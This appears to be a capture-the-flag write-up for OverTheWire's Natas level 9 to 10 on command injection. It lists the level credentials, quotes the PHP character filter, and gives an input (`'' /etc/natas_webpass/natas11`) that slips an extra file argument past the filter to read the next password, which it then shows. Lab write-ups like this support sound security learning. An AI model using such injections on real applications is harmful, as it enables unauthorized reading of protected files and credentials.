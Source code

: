 # [Level 09 to 10](https://overthewire.org/wargames/natas/natas10.html) - Command injection

- Login
```
URL: http://natas10.natas.labs.overthewire.org
Username: natas10
Password: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```
- Exercise:
![image](https://github.com/user-attachments/assets/28feaf2b-7da8-4bc8-8ed4-10638e1f5cc5)
![image](https://github.com/user-attachments/assets/a963c2bd-767f-4ce2-b1d8-b1012d02c02e)

- Background:
- Solution:
  - Executes a shell command using user input `$key`, after filtering for three characters:
  ``` php
  if(preg_match('/[;|&]/',$key)) {
    print "Input contains an illegal character!";
  ```
  - `;`, `|` and `&` are blocked, but we can still inject commands like `''` and `...`
  - Enter in input field: `'' /etc/natas_webpass/natas11`
  - ![image](https://github.com/user-attachments/assets/00921a6b-a526-44cb-8624-92a00143c50d)

- Password: `UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk`
